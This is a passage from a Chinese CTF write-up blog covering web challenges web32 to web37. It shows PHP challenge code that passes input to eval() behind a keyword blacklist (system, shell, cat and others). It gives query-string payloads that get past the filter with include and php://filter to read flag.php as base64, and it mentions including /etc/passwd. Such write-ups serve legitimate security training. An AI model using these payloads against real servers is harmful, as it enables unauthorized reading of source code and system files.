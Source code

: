其中`include "/etc/passwd"`是可以利用的

![image-20230429000203174](https://img.crzliang.cn/blog/image-20230429000203174.png)

源码里面也没有对`$`进行过滤，用`$_POST[x]`或者`$_GET[x]`，然后用php伪协议将include包含的文件显示出来

payload：`?c=include"$_GET[url]"?>&url=php://filter/read=convert.base64-encode/resource=flag.php`

base64解码：

![image-20230428235716076](https://img.crzliang.cn/blog/image-20230428235716076.png)

# web33

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 02:22:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
//
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

方法同上，只不过是这题过滤了双引号，所以把payload改成：

`?c=include$_GET[url]?>&url=php://filter/read=convert.base64-encode/resource=flag.php`即可

![image-20230429001355876](https://img.crzliang.cn/blog/image-20230429001355876.png)

# web34-36

用web33的payload即可，原理一样

# web37

